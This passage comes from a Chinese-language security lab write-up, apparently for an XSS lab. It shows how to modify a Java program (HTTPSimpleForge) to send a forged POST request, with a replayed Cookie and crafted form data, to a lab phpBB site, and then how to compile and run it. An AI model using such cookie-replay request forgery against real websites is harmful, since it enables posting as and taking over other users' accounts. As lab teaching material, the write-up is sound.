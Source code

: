 ```java
                        //System.out.println(inputLine);
                    }
                }
            }
        } catch (MalformedURLException e) {
            e.printStackTrace();
        }
    }
}
```

根据Live HTTP headers所捕获的内容，进行修改主要是修改data、Cookie。其data内容事实上就是参数，在一些老网站上，使用POST传参数时，其网址后面`?..&..`正是参数，？表示起始，&就是参数之间的分隔符。

例如我们修改`subject=`和`message=`两个参数的内容，修改为`TASK4java04444`和`SKPriminAAAAAAAA...`

```bash
 String data = "subject=TASK4java04444&addbbcode18=%23444444&addbbcode20=0&helpbox=Code+display%3A+%5Bcode%5Dcode%5B%2Fcode%5D++%28alt%2Bc%29&message=SKPriminAAAAAAAAAAAAAAAA0000000000000000000000000&poll_title=&add_poll_option_text=&poll_length=&mode=newtopic&sid=c50f6a27861e00e5947e7376676e6b80&f=1&post=Submit";
```

将上述代码复制保存，java文件的特性，文件名必须要与类名（`public class`后面跟着的那个）相同，即命名为`HTTPSimpleForge.java`。随后我们更改部分内容将参数。

- 上层创建的`URL url = new URL("http://www.xsslabphpbb.com/posting.php");`对象。

- ` urlConn.addRequestProperty("Cookie", "")`只需要一个Cookie。Cookie即代表所有，我们平时网站的免登录实际上也是由浏览器帮我们保存了Cookie并自动登录实现的。个别网站可能要**user-agent**(浏览器标识)、**referer**（防盗链）

- ` String data = "";`发送的信息

将**HTTPSimpleForge.java**文件中对应的部分修改。URL大约再12行，addRequestProperty大约再24行，data紧跟其后。

![image-20220316134708166](XSSAttack/image-20220316134708166.png)

随后先编译再执行。响应码200表示正常。

```bash
javac HTTPSimpleForge.java
java HTTPSimpleForge
```

![image-20220316133715317](XSSAttack/image-20220316133715317.png)
